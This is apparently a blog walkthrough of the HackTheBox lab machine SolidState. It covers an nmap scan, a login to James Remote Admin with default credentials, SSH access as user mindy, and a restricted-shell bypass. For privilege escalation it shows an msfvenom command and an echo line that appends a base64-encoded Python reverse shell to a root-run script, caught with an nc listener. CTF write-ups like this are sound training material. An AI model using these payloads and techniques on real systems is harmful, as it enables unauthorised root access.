 ```yaml
---
layout: post
title: "SolidState"
categories: HTB-Walkthrough
---
```



![solidstate](/assets/img/solidstate/solidstate.png)

SolidState is another OSCP-like box from the HTB 'retired' archive.

<h4>Nmap</h4>

`nmap -sV -Pn 10.10.10.51 |tee -a solid.txt`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-28 17:07 EST
Warning: 10.10.10.51 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.51
Host is up (0.097s latency).
Not shown: 65469 closed ports, 60 filtered ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.20 seconds

```

After googling 'exploit james 2.3.2' I hit upon a method...and possible [exploit](https://www.exploit-db.com/exploits/35513)
Reading the exploit, I find the default credentials for the James Remote Admin account.



<h4>Telnet James Remote Admin</h4>

First I use telnet to access James Remote Admin, with the default credentials root/root.


![james-admin](/assets/img/solidstate/solidstate-james-admin1.png)

Now to check each mailbox for loot.

![mailbox-loot](/assets/img/solidstate/solid-mailbox-loot.png)

![mailbox-loot2](/assets/img/solidstate/solid-mailbox-loot2.png)

![mailbox-loot3](/assets/img/solidstate/solid-mailbox-loot3.png)

<hr width="250" size="6">


This information, allows us to gain access to Mindy's user account.

`ssh mindy@10.10.10.51`


```

root@kali:~/HTB/retired/solidstate# ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt
91xxxxxxxxxxxxxxxxxxxxxxxxxxxx75
mindy@solidstate:~$ 

```

mindy has a very restricted shell.....so I try build up the available commands...

```

BASH_CMDS[ls]=/bin/ls
BASH_CMDS[uname]=/bin/uname
BASH_CMDS[nano]=/bin/nano
BASH_CMDS[cat]=/bin/cat

```

This works, but is incredibly laborious, we can get around this problem with the james.py 
exploit, which gives us a better shell.


```

#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

```
We run the exploit, and get a better shell as mindy.



<h3>Privilege Escalation</h3>

found /opt/tmp.py

we cannot replace, but we can append to it...

```

msfvenom -p cmd/unix/reverse_python lhost=10.10.14.19 lport=443 -a cmd -e generic/none --platform unix

```

```

echo "exec('aW1wb3J0IHNvY2tldCAgICwgIHN1YnByb2Nlc3MgICAsICBvcyAgOyAgICAgICAgIGhvc3Q9IjEwLjEwLjE0LjE5IiAgOyAgICAgICAgIHBvcnQ9NDQzICA7ICAgICAgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVUICAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKSAgOyAgICAgICAgIHMuY29ubmVjdCgoaG9zdCAgICwgIHBvcnQpKSAgOyAgICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICwgIDApICA7ICAgICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgLCAgMSkgIDsgICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAsICAyKSAgOyAgICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))" >> /opt/tmp.py

```


set listener ....
`nc -nlvp 443`

....and wait....


```

root@kali:~/HTB/retired/solidstate# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.51] 48652
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /root/root.txt
b4xxxxxxxxxxxxxxxxxxxxxxxxxxxxc9
hostname
solidstate


```

:)
